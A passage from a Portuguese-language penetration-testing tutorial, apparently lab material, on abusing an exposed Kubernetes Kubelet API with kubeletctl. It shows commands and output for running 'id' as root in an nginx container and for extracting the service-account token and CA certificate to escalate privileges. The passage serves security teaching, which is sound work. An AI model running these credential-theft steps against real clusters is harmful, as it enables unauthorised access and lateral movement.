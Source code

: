 ├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
</pre>

Também é possível que nos envolvamos com um contêiner interativamente e tenhamos insights sobre a extensão de nossos privilégios dentro dele. Isso nos permite entender melhor nosso nível de acesso e controle sobre o conteúdo do contêiner.

#### API Kubelet - Executando Comandos

```shell-session
cry0l1t3@k8:~$ kubeletctl -i --server 10.129.10.11 exec "id" -p nginx -c nginx

uid=0(root) gid=0(root) groups=0(root)
```

A saída do comando mostra que o usuário atual que executa o `id`comando dentro do contêiner tem privilégios de root. Isso indica que obtivemos acesso administrativo dentro do contêiner, o que pode levar a vulnerabilidades de escalonamento de privilégios. Se obtivermos acesso a um contêiner com privilégios de root, podemos executar outras ações no sistema host ou em outros contêineres.

## Escalação de privilégios
Para obter privilégios mais altos e acessar o sistema host, podemos utilizar uma ferramenta chamada [kubeletctl](https://github.com/cyberark/kubeletctl) para obter a conta de serviço do Kubernetes `token`e `certificate`( `ca.crt`) do servidor.

Para fazer isso, precisamos fornecer o endereço IP do servidor, o namespace e o pod de destino. Caso obtenhamos esse token e certificado, podemos elevar nossos privilégios ainda mais, mover horizontalmente pelo cluster ou obter acesso a pods e recursos adicionais.

#### API do Kubelet - Extraindo Tokens

```shell-session
cry0l1t3@k8:~$ kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token

eyJhbGciOiJSUzI1NiIsImtpZC...SNIP...UfT3OKQH6Sdw
```

#### API Kubelet - Extraindo Certificados

```shell-session
cry0l1t3@k8:~$ kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt

-----BEGIN CERTIFICATE-----
MIIDBjCCAe6gAwIBAgIBATANBgkqhkiG9w0BAQsFADAVMRMwEQYDVQQDEwptaW5p
<SNIP>
MhxgN4lKI0zpxFBTpIwJ3iZemSfh3pY2UqX03ju4TreksGMkX/hZ2NyIMrKDpolD
602eXnhZAL3+dA==
-----END CERTIFICATE-----
```

Agora que temos ambos `token`e `certificate`, podemos verificar os direitos de acesso no cluster do Kubernetes. Isso é comumente usado para auditoria e verificação para garantir que os usuários tenham o nível correto de acesso e não recebam mais privilégios do que precisam.
